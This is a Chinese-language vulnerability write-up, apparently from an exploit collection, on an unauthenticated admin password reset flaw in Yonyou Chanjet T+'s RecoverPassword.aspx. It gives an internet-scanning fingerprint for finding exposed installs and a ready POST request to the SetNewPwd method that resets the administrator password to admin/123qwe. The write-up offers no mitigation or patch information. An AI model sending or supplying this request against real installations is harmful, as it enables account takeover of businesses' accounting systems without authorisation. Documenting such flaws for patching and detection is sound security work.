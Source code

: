 # 用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

## 漏洞描述

用友 畅捷通T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过漏洞修改管理员账号密码登录后台

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2.png)

验证POC, 重置账号密码为 `admin/123qwe`

```php
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

![img](../../../.vuepress/public/img/1662032164696-3998d8bc-1adb-4ebe-bf03-caff84a33a26.png)